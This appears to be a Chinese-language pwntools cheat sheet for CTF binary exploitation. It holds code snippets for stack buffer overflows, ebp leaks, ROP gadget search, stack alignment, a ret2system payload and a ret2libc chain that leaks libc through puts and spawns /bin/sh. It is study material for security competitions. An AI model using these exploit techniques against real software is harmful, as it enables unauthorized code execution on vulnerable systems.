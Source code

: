 ## 关闭 BytesWarning

```python
import warnings
warnings.filterwarnings("ignore", category=BytesWarning)
```

## 各函数的细节区别 scanf 用 sendline, read 用 send

| 函数名 | pwn 工具 | 输出的区别     |
| ------ | -------- | -------------- |
| scanf  | sendline |                |
| read   | send     |                |
| puts   |          | 发送后追加`\n` |
| printf |          | 不追加`\n`     |

## 溢出读取 ebp 值

sendline 发送时\n 会占一个字符 0x4 大小发 `sendline 'a'*4` 会发 5 个字符引发问题。

举例

```c
char s[40]; // [ebp-28h]
read(0, s, 0x30u);


// 要输出 ebp 需要 0x20 个字节这时只要覆盖最后的 00 即可输出 ebp，read时用send,不用sendline
// 如果是scanf要用 sendline
payload1 = b'A' * (0x27) + b'B'
p.send(payload1)  # not sendline
p.recvuntil("B")
original_ebp = u32(p.recv(4))
```

### 填充指定大小

```py
'a'.ljust(268, ' ')
```

## 使用默认的 libc

```
elf = ELF("./canary")
libc = elf.libc
```

## find leave asm

```python
leave_ret = elf.search(asm('leave')).__next__()

pop_rdi = ROP(elf).find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = ROP(elf).find_gadget(['pop rsi'])[0]
leave_ret = ROP(elf).find_gadget(['leave', 'ret'])[0]
print(hex(pop_rdi))
```

## snippets

```python
ss = lambda data: s.send(str(data))
sa = lambda delim, data: s.sendafter(str(delim), str(data))
sl = lambda data: s.sendline(data)
sls = lambda data: s.sendline(str(data))
sla = lambda delim, data: s.sendlineafter(str(delim), str(data))
r = lambda num: s.recv(num)
ru = lambda delims, drop=True: s.recvuntil(delims, drop)
itr = lambda: s.interactive()
uu32 = lambda data: u32(data.ljust(4, b'\x00'))
uu64 = lambda data: u64(data.ljust(8, b'\x00'))
leak = lambda name, addr: log.success('{} = {:#x}'.format(name, addr))
l64 = lambda: u64(p.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))
l32 = lambda: u32(p.recvuntil("\xf7")[-4:].ljust(4, b"\x00"))

bss_addr = elf.bss()
```

# Stack

## 栈对齐

```python
rop = ROP(elf)
rop.raw(b'a' * (64 + 8))
rop.raw(flat(ret)) # 方式1. 加个ret即可
rop.call(system, [bin_sh]) # 栈对齐

# 方式2 不加ret 加参数 rop.call(system, [bin_sh, '0']) # 栈对齐
```

## ret2system

```sh
# ciscn_2019_es_2
elf.plt['system'] + p32(0) + binsh_addr  # 是地址不是 "/bin/sh" 字符
payload =p32(0) + p32(elf.plt['system']) + p32(0) + p32(stdin_addr+0x10) + b'/bin/sh\x00'
payload = payload.ljust(0x28, '\x00')
```

# rop

见 pwn_01_stack_03_ret2libc_x64_00_ctfhub_bypwntool_rop.py

```sh
rop = ROP('./ret2libc') # x64
rop.raw(b'A' * (144 + 8))  # 填充144 + fake_rbp(8) 个字节的数据到缓冲区中
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
# rop.call 会自动 pop rdi, ret来传入参数
rop.call(puts_plt, [puts_got]) # puts_plt(puts_got, arg2, arg3, arg4, ...)
rop.call('main')  # 自动构建下一步的ret调用main函数，使程序重新运行
p.sendline(rop.chain())

# 再发送时要重新构建 rop
rop = ROP('./ret2libc')
rop.raw(b'A' * (144 + 8))
rop.call(system_addr, [binsh_addr])
```
